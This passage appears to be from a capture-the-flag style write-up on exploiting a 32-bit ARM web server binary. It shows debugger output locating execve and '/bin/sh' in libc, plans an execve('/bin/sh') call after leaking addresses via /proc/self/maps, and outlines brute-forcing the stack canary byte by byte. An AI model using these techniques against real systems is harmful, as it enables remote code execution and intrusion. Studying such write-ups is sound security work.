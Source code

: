 And on top of all those, ASLR is on. Given the target is 32 bits, brute-force is a
realistic approach, although inelegant. One (or more) memory leak(s) can defeat
PIC & ASLR, let's look for those first.

Fortunately, thanks to the Step-1 (*Web Application attack*), we know that we can dump the memory layout of
the process (by reading the `/proc/self/maps`), and also download a copy of the
libc so we can call `execve()`.

__Note__: the stack is actually RWX but I chose not to use that.

```bash
gef➤  xinfo execve
──────────────────────────────────────────[ xinfo: execve ]──────────────────────────────────────────
Found 0x76e3ef80
Page: 0x76e44000 → 0x76f6b000 (size=0x127000)
Permissions: r-x
Pathname: /lib/arm-linux-gnueabihf/libc-2.22.so
Offset (from page): +0x9bf80
Inode: 17992
Segment: .text (0x76e59e20-0x76f4b200)

gef➤  grep /bin/sh
[+] Searching '/bin/sh' in memory
0x76f5df08-0x76f5df0f →  "/bin/sh"
```

So we have `execve_addr = libc_base + 0x9bf80` and also `binsh_str = libc_base
+ 0x119f08`. We can build the call `execve('/bin/sh', 0, 0)`.


### Leaking the canary ###

Last thing we need to build a full exploit is a way to leak/brute-force the
canary.

In the pseudo-code earlier, we found that the `main` process was calling a
function that we named `treat_requests()`. IDA shows us that this function is
actually a loop to process one or more valid HTTP requests on the same socket.

{{ img(src="https://i.imgur.com/2DnSsUl.png" title="ida-screen-treat-requests") }}

Which looks something like:
```c
while (1){
  retcode = process_http_request(fd);
  if (retcode < 0)
      break;
}
```

This gives us a perfect way to leak the canary:

 * try to brute-force byte 0 of the canary, and then send another valid
     (dummy) HTTP request.
 * if the byte tested is incorrect (i.e. different from the canary), the
     process will die, closing the socket, that we can detect on our end by an
     EOFError.
 * otherwise, the byte 0 is valid, proceed with byte 1
